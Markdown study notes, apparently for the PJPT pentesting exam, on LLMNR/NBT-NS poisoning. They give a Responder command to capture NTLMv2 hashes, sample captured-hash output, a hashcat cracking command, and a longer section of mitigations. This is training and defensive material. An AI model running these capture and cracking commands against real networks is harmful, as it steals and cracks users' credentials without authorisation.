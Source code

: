 # LLMNR Poisoning (PJPT Prep)

## What is LLMNR?
- **LLMNR (Link-Local Multicast Name Resolution)** is used to identify hosts when DNS fails.
- Previously, NBT-NS was used for this purpose.
- **Key flaw:** Services may leak a user's username and NTLMv2 hash if an attacker responds to LLMNR/NBT-NS queries.

## Attack Overview
LLMNR poisoning allows an attacker to capture NTLMv2 hashes from users on the same network segment. These hashes can then be cracked offline to obtain cleartext passwords.

### Steps

#### 1. Run Responder
Responder is a tool that listens for LLMNR/NBT-NS requests and responds to them, tricking victims into sending their credentials.

```bash
sudo responder -I tun0 -dwP
```
- `-I tun0` : Specify the network interface
- `-d` : Enable NetBIOS poisoning
- `-w` : Enable WPAD proxy
- `-P` : Enable LLMNR poisoning

#### 2. Wait for Hashes
When a victim attempts to resolve a name and LLMNR/NBT-NS is used, Responder will capture the NTLMv2 hash.

Example output:
```
[SMBv2] NTLMv2-SSP Username : MARVEL\fcastle
[SMBv2] NTLMv2-SSP Hash    : fcastle::MARVEL:61dde887aeb2af2a:76dd8039b96061195586bc9a4ef5f3c1:...:0101000000000000...
```

#### 3. Crack the Hash
Use hashcat to crack the captured hash (mode 5600 for NTLMv2):

```bash
hashcat -m 5600 hashes.txt rockyou.txt
```
- `hashes.txt` : File containing captured hashes
- `rockyou.txt` : Wordlist

Example cracked output:
```
Session..........: hashcat
Status...........: Cracked
...
Password1
```

## Mitigation

### Primary Defense: Disable LLMNR and NBT-NS

**The best defense is to disable LLMNR and NBT-NS entirely:**

#### Disable LLMNR
- Open **Group Policy Editor** (`gpedit.msc`)
- Navigate to: `Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client`
- Find **"Turn OFF Multicast Name Resolution"**
- Set to **Enabled**

#### Disable NBT-NS
- Go to **Network Connections**
- Right-click network adapter > **Properties**
- Select **TCP/IPv4 Properties**
- Click **Advanced** > **WINS** tab
- Select **"Disable NetBIOS over TCP/IP"**

### Alternative: If LLMNR/NBT-NS Cannot Be Disabled

**If the organization must use or cannot disable LLMNR/NBT-NS:**

#### Network Segmentation
- **Require Network Access Control (NAC)**
- Implement proper network segmentation to limit attack scope
- Use VLANs to isolate critical systems

#### Strong Password Policy
- **Require strong user passwords:**
  - Minimum 14+ characters in length
  - Limit common word usage
  - Use complex combinations (uppercase, lowercase, numbers, symbols)
- **The longer and more complex the password, the harder it is to crack the captured hash**

#### Additional Measures
- **Monitor for Responder activity** in network logs
- **Implement SMB signing** to prevent relay attacks
- **Use multi-factor authentication (MFA)** where possible
- **Regular password rotation** policies

## Summary
- LLMNR/NBT-NS poisoning is a common way to capture Windows credentials on internal networks
- Use Responder to capture hashes, then crack them with hashcat
- **Primary mitigation:** Disable LLMNR and NBT-NS completely
- **If disabling isn't possible:** Implement NAC, strong passwords (14+ chars), and network segmentation 